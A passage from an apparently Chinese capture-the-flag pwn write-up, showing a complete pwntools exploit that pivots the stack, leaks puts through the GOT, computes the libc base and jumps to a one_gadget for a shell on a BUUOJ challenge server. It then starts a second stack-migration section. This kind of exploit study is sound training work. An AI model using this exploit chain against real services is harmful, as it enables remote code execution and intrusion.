 leak=u64(r.recv(6).ljust(8,'\x00'))

然后自己去差base吧



最后再传入onegadget就可以getshell了

soeasy



exp:

```python
from pwn import *

io=remote('node.buuoj.cn','28257')

bank=0x0601080
leave=0x400699
puts_plt=0x04004E0
puts_got=0x0601018
pop_rdi=0x400703
main=0x0400626
ret=0x400704

io.recvuntil('u want')
pl1='a'*0x60+p64(bank)+p64(leave)
io.send(pl1)
io.recvuntil('now!')
pl2=p64(ret)*20+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main)
io.send(pl2)
io.recvline()
puts_add=u64(io.recv(6).ljust(8,'\x00'))
libc_base=puts_add-0x06f690
one_gadget=libc_base+0x4526a
pl3='a'*0x60+'bbbbbbbb'+p64(one_gadget)
io.send(pl3)
io.send('a')

io.interactive()
```

## 2.csu+栈迁移

题目和exp

链接：https://pan.baidu.com/s/1tNgz_5tcXkwfLNpvAdIEXQ 
提取码：4567 
--来自百度网盘超级会员V2的分享

main函数

同样是栈迁移很明显的

但是你迁移的长度太少了吧啊哈
